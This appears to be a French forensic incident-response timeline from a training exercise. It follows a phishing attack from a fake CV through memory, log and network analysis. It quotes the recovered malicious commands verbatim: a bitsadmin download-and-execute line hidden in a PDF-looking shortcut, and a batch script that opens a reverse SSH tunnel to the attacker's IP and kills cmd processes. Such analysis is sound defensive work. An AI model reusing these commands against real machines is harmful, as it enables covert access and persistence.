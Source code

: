 # TIMELINE

## 28/02/2024

### Mail

Mail suspicieux d'Homer Simpson

![alt text](image.png)

Le mail redirige vers une archive zip et non un PDF

`http://13.39.205.164/CV_Homer_SIMPSON.zip`

C'est un serveur WEB qui tourne derrière cette IP.

### Analyse du Dump Mémoire | strings

On retrouve dans les strings une connexion SSH forward, un tunnel est crée entre la machine et le serveur vu précedemment.

```bash
ssh  -o StrictHostKeyChecking=no -f -N -R 1080 tunnel@13.39.205.164 -p 443

-f foreground
-o option -> StrictHostKeyChecking=no
-N pas d'exec de commande
-R port à forwarder
-p port vers lequel on forward
```

Extraction de données ?

### Processus: cmd.exe

On retrouve dans la liste des processus plusieurs cmd.exe

- 1 dumpit (pid 11256)
- 1 Générator de menace (pid 7072)
- 1 soupçoné d'être notre malware (pid 5728)

On retrouve dans la mémoire du cmd, ce que l'on soupçonne d'être le script malveillant (.bat)
`strings pid.5728.dmp | grep "echo off" -A 10 -B 10`

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

wmic process where... doit servir à supprimer instantanément le cmd
Ce programme .bat est probablement télécharge après l'ouverture d'un des fichiers dans l'archive, puisque l'on retrouve cette ligne dans les strings du dump mémoire:

![alt text](image-1.png)

Il y a donc un téléchargement du fichier `autologon.bat` depuis le serveur web et l'execution de celui-ci. Le code retrouvé précedemment est probablement le contenu de ce .bat.

On retrouve également sur la machine un programme étrange du nom de **bInckFhm.exe** au PID 440 que je n'ai pas pu décompilé.

## 29/02/2024

### Analyse evtx

Avec l'outil Chainsaw j'applique des sigma rules pour trier les logs evtx et les exporter en CSV.

On retrouve la création d'un utilisateur: `lisa.simpson`

![alt text](image-2.png)

On cherchant dans les strings, on retrouve la création de cet utilisateur ainsi que l'ajout de ce dernier au groupe "administrateurs"

![alt text](image-3.png)

On retrouve ces informations dans les logs evtx ouvert dans windows.

### Analyse des pièces jointes présentes sur le serveur web

On a pu récupérer les fichiers ZIP et autologon.bat présent sur le serveur WEB.

![alt text](image-4.png)

Le ZIP contient un .lnk qui est un raccourci avec une icone de pdf et il continent également le vrai CV d'Homer Simpson.

Dans le .lnk, on remarque l'execution d'une commande dans un CMD:

![alt text](image-5.png)

```bat
"C:\Windows\System32\cmd.exe" /k "bitsadmin /transfer mydownloadjob /download /priority FOREGROUND "http://13.39.205.164/autologon.bat" "c:\users\public\autologon.bat" && start c:\users\public\autologon.bat && exit"
```

C'est la commande qui télécharge l'autologon.bat. Ce dernier contient le programme suivant:

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

C'est bien le programme que j'avais trouvé hier dans les strings.

## 01/03/2024

### Analyse des strings du processus ssh.exe (pid 7328)

Dans les strings du protocole ssh je fais une découverte interessant avec des fichiers sur le Bureau (qui n'apparaissent pas dans le filescan).

![alt text](image-6.png)

Il y a notamment le fichiers CVE-2021-1675.ps1.txt qui me saute au yeux car après une recherche il s'agit d'un script permettant la création d'un utilisateur local et de le placer dans le groups des administrateur. De la même facon que lisa.simpson à été créer. Ce script est disponible juste ici:

### Analyse Wireshark

172.19.3.2 -> Serveur HTTP3 avec QUIC

![alt text](image-7.png)

Et serveur DNS
![alt text](image-8.png)

Trafic HTTP over TLS avec 2 IP publiques: (51.159.9.95 et 18.193.121.83)

![alt text](image-9.png)

Serveur FTP sur 172.19.3.3 avec connexion de n.flanders.

![alt text](image-10.png)

## 04/03/2024

### Wireshark FTP

On remarque dans la capture Wireshark, plusieurs trames correspondantes avec des essais de credentials différents, cela ressemble à de l'attaque par dictionnaire pour trouver un accès à ce serveur. L'attaquant parvient à trouver le mot de passe de l'utilisateur n.flanders.

Mot de passe incorrect:

![alt text](image-11.png)

Connexion réussie:

![alt text](image-12.png)

### Analyse du DC de l'AD

On a récupéré un dump mémoire du Domain Controller ainsi que des logs evtx de ce dernier.

### Analyse de la RAM

On retrouve dans le pslist plusieurs processus Kryptex, après une recherche je me rends compte qu'il s'agit d'un mineur de cryptomonnaie.

![alt text](image-13.png)

![alt text](image-14.png)

On trouve dans le netstat une connexion RDP depuis une adresse public (10.15.9.161)

![alt text](image-15.png)

Egalement, le DC de l'AD est connecté au serveur FTP (172.19.3.3) sur le port 22, potentiellement SSH ou SFTP ?

![alt text](image-16.png)